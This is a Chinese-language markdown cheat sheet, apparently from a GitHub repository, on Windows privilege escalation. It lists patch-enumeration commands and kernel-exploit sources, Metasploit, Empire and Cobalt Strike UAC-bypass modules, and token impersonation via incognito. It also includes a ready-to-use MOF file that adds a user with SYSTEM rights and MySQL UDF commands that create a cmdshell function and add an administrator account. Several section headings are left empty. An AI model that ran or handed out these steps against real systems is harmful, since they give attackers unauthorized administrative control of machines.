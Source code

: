 [参考指南](https://cloud.tencent.com/developer/article/1771226)

## 系统内核溢出提权

查看系统补丁

```
#手工查找补丁
systeminfo
Wmic qfe get Caption,Description,HotFixID,InstalledOn

#MSF后渗透扫描
post/windows/gather/enum_patches 
post/multi/recon/local_exploit_suggester

#Windows exploit suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/jondonas/linux-exploit-suggester-2

#powershell中的sherlock脚本 
Import-Module C:\Sherlock.ps1 #下载ps1脚本，导入模块 
Find-AllVulns 

#Empire内置模块 Empire框架也提供了关于内核溢出漏洞提权的漏洞利用方法 
usemodule privesc/powerup/allchecks 
execute
```
查找到缺失的补丁后，对照相应的系统版本，查找对应的exp
```
https://github.com/SecWiki/windows-kernel-exploits 
https://bugs.hacking8.com/tiquan/ https://github.com/Heptagrams/Heptagram/tree/master/Windows/Elevation https://www.exploit-db.com/ 
https://i.hacking8.com/tiquan/
```
## 系统配置错误提权






## 组策略首选项提权






## BypassUAC提权

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。
```
#Msf 
exploit/windows/local/ask #弹出UAC确认窗口，点击后获得system权限 exploit/windows/local/bypassuac #此模块将通过进程注入使用可信任发布者证书绕过Windows UAC，它将生成关闭UAC标志的第二个shell。 
exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。如果指定exe::custom，应在单独的进程中启动 payload 后调用ExitProcess（） 
exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定exe:custom，则应在单独的进程中启动payload后调用ExitProcess（）。 
exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（） exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL,这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项,这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件,因此，如果cmd.exe访问受到限制，此模块将无法正常运行。 

#Powershell 
Invoke-PsUACme 

#Empire 
usemodule privesc/bypassuac 
usemodule privesc/bypassuac_wscript 

#cs 
uac-dll 
uac-token-duplication 

```
## 令牌窃取

```
#MSF
use incognito #进入incognito模块 
list_tokens -u #列出令牌
Delegation Tokens Available #也就是授权令牌，它支持交互式登录(例如可以通过远程桌面登录访问)
========================================
GOD\Administrator
NT AUTHORITY\SYSTEM

Impersonation Tokens Available #模拟令牌，它是非交互的会话
========================================
No tokens available

#使用令牌假冒用户 
impersonate_token "NT AUTHORITY\SYSTEM"

# Rotten Potato 本地提权
https://link.zhihu.com/?target=https%3A//github.com/breenmachine/RottenPotatoNG
运行 RottenPotato.exe 直接弹出 SYSTEM 权限的 CMD 窗口，不需要用到 MSF
```

## 数据库提权

### MOF提权
MOF文件是mysql数据库的扩展文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”，其作用是每隔五秒就会去监控进程创建和死亡，因为MOF文件每五秒就会执行，且是系统权限，所以如果我们有权限替换原有的mof文件，就能获得system权限
```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

其中的第18行的命令，上传前请自己更改。

2、执行load_file及into dumpfile把文件导出到正确的位置即可。

```
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'
```

执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。


### UDF提权
UDF,user defined funcion,即用户自定义函数，用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll
要求: 1.目标系统是Windows(Win2000,XP,Win2003)； 2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数 可以再mysql里输入 `select @@basedir` `show variables like ‘%plugins%’` 寻找mysql安装路径 提权:

使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

```
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
```

该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

## 其他